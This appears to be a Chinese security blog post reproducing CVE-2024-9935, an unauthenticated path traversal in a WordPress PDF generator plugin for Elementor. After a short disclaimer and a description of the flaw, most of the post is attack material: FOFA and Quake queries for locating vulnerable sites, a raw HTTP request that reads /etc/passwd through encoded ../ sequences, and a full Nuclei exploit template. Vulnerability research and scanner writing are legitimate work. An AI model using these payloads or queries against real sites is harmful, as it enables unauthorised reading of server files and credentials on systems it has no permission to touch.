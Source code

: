 #  【漏洞复现】CVE-2024-9935   
混子Hacker  混子Hacker   2024-12-04 13:17  
  
****  
**免责声明**  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不承担任何法律及连带责任。  
  
  
[   
漏洞简介   
]  
  
——    
道阻且长，行则将至；行而不辍，未来可期 ——  
  
CVE-2024-9935  
  
WordPress 的 Elementor Page Builder 插件的 PDF 生成器插件在 1.7.5 之前的所有版本中都容易受到路径遍历的攻击，包括 1.7.5 rtw_pgaepb_dwnld_pdf（） 函数。这使得未经身份验证的攻击者能够读取服务器上任意文件的内容，其中可能包含敏感信息。  
  
  
  
  
  
  
漏洞信息  
  
  
**混子Hacker**  
  
**01**  
  
资产测绘  
  
  
```
fofa: body="wp-content/plugins/pdf-generator-addon-for-elementor-page-builder/"
Quake：body:"wp-content/plugins/pdf-generator-addon-for-elementor-page-builder/"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGsaY0rJXzUeyNU3kfY3WwiaFibqp4Zpenycvy9h9gFBzrnLa4Ke6Vbia4NHl4g6yQr5RmuBR8alk5GmQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGsaY0rJXzUeyNU3kfY3WwiaFpgwkEjcEEwZAdotSujx4sGhUmttrfrBs6ZopDbzpDF9IXLJalDshFg/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
**混子Hacker**********  
  
**02**  
  
漏洞复现  
  
  
```
GET /elementor-84/?rtw_generate_pdf=true&rtw_pdf_file=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd HTTP/1.1
Host: xxx
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (SS; Linux i686) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGsaY0rJXzUeyNU3kfY3WwiaFaYjT6vp9VQqXPvibbdsibR7quEiaTvE50Fwk25Enia6nu59iak1ZX9sM7EA/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
  
**混子Hacker**********  
  
**03**  
  
Nuclei Poc  
  
  
```
id: CVE-2024-9935
info:
  name: PDF Generator Addon for Elementor Page Builder <= 1.7.5 - Arbitrary File Download
  author: s4e-io
  severity: high
  description: |
    The PDF Generator Addon for Elementor Page Builder plugin for WordPress is vulnerable to Path Traversal in all versions up to, and including, 1.7.5 via the rtw_pgaepb_dwnld_pdf() function. This makes it possible for unauthenticated attackers to read the contents of arbitrary files on the server, which can contain sensitive information.
  reference:
    - https://github.com/RandomRobbieBF/CVE-2024-9935
    - https://plugins.trac.wordpress.org/browser/pdf-generator-addon-for-elementor-page-builder/trunk/public/class-pdf-generator-addon-for-elementor-page-builder-public.php#L133
    - https://www.wordfence.com/threat-intel/vulnerabilities/id/36daf2af-1db3-4b35-8849-480212660b2f?source=cve
    - https://nvd.nist.gov/vuln/detail/CVE-2024-9935
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
    cvss-score: 7.5
    cve-id: CVE-2024-9935
    cwe-id: CWE-22
    epss-score: 0.0009
    epss-percentile: 0.39758
  metadata:
    verified: true
    max-request: 2
    vendor: RedefiningTheWeb
    product: pdf-generator-addon-for-elementor-page-builder
    framework: wordpress
    fofa-query: body="wp-content/plugins/pdf-generator-addon-for-elementor-page-builder/"
  tags: cve,cve2024,wp,wordpress,wp-plugin,lfi,pdf-generator
flow: http(1) && http(2)
http:
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "/wp-content/plugins/pdf-generator-addon-for-elementor-page-builder")'
        internal: true
  - raw:
      - |
        GET /elementor-84/?rtw_generate_pdf=true&rtw_pdf_file=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd HTTP/1.1
        Host: {{Hostname}}
    matchers:
      - type: dsl
        dsl:
          - regex('root:.*:0:0:', body)
          - contains(header, "application/pdf")
          - status_code == 200
        condition: and
```  
  
  
  
<<<    
END   
>>>  
  
  
  
原创文章｜转载请附上原文出处链接  
  
更多漏洞｜关注作者查看  
  
作者｜混子Hacker  
  
  
  

